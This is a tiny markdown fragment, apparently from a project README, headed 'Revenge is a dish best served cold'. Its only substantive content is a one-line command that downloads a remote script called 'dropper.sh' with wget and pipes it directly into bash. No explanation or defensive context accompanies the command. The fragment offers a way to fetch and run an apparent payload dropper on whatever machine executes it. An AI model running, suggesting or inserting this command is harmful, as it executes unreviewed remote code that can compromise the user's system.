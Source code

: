 ## Revenge is a dish best served cold

```
$ wget -qO- https://raw.githubusercontent.com/antagon/sexy.sh/master/dropper.sh | bash
```
